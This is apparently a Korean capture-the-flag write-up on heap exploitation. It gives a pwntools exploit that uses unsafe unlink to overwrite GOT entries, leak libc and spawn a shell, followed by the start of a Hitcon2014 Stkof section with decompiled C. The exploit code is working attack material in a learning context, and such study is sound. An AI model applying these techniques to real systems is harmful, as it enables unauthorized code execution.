 ```python
free_got = 0x602018

save(1,'a')
save(2,'a')
de(1)
save(3,'b')
de(1)

save(1,p64(0) + p64(0x21) + p64(0x6020d0 - 0x18) + p64(0x6020d0 - 0x10) + p64(0x20))
de(2)

renew(1,p64(0) + p64(atoi_got)*2 + p64(free_got))
renew(1,p64(puts_plt))
de(2)

libc = u64(t.recv(6).ljust(8,'\x00')) - 0x36e80
log.success("libc ==> " + hex(libc))
system = libc + 0x45390

renew(1,p64(system))
save(2,'sh\x00')
de(2)

t.interactive()
->
$ id
uid=1000(bskim)
```

그 후엔 똑같이 free_got를 system으로 바꾸고 atoi_got에 sh를 쓰고 2 pointer를 free 해주면 쉘 ! 또 하나의 문제점 이었던거는.. secret 입력할 때 sendline으로 보내버려서 got 덮을 때 계속 에러가 나서 거기서도 시간을 많이 버렸다..(send와 sendline은 진짜 적절하게 잘 써야 함 ㅠ) 그래도 이건 search에 비하면 훠얼씬 수월했다..(메뉴 적은게 체고시다)

<br>

# Hitcon2014-Stkof

unsafe unlink 문제 

```c
signed __int64 sub_400936()
{
  __int64 size; // [rsp+0h] [rbp-80h]
  char *v2; // [rsp+8h] [rbp-78h]
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  size = atoll(&s);
  v2 = (char *)malloc(size);
  if ( !v2 )
    return 0xFFFFFFFFLL;
  ::s[++chunk_count] = v2;
  printf("%d\n", (unsigned int)chunk_count, size);
  return 0LL;
}
```
